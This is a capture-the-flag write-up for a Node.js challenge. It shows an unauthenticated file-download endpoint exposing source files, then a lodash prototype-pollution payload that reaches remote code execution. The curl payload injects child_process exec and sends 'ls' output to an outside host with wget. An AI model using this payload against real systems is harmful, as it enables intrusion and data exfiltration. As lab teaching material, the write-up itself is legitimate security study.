 # Elz3ama-CTF

By inspecting the HTTP responses, we figure out that the application is written in NodeJs.


![Application](http://snappyimages.nextwavesrl.netdna-cdn.com/img/4f786f0c3099ae9aad02921d1aab97b9.png)

Next By inspecting the comments we see the below comments:

> Ziko: I could not push the code to the CI/CD pipeline, so NexusIQ was not executed on this project. Would you please check it for me ? the endpoint for getting files is: /DownloadFile/${file}

We can then figure out that there is a download function that takes the file name and download the file. knowing that the application is written in NodeJS, we can assume that the file 'package.json'.

by going to the following link:

> http://localhost:3000/DownloadFile/package.json

We can simply download the 'package.json' file and then read all of the dependencies.

On the line number: 7. we can spot that the main file used in the application is called 'index.js'

By making use of the same 'DownloadFile' link to download the source code of the application:

> http://localhost:3000/DownloadFile/index.js

![sourcecode](http://snappyimages.nextwavesrl.netdna-cdn.com/img/4982e1c2fc989d1e2ed6017190ff8c9d.png)


By searching around you can find that the application is making use of a vulnerable version of 'lodash' library which is vulnerable to prototype pollution and leads to RCE due to the usage of 'template'.

> https://github.com/lodash/lodash/pull/4518

The full payload that can leads to RCE
> curl -D- localhost:3000/pipeline -H 'Content-Type: application/json' -d $'{"constructor": {"prototype": {"sourceURL": "\u2028\u2029global.process.mainModule.require(\'child_process\').exec(\'wget http://sherif.ninja:8080/$(ls)\')"}}}'

On the other hand on the webserver runnning by the player they can receive the output of the command 'ls'
on the http logs

![flag-file](http://snappyimages.nextwavesrl.netdna-cdn.com/img/98d108a92b9e49d3934f80a186abe1d4.png)

by making use of the 'DownloadFile' function, we can simply read the flag by the following link:

http://localhost:3000/DownloadFile/cfl4g_n7w_z3ama_file_downloaded
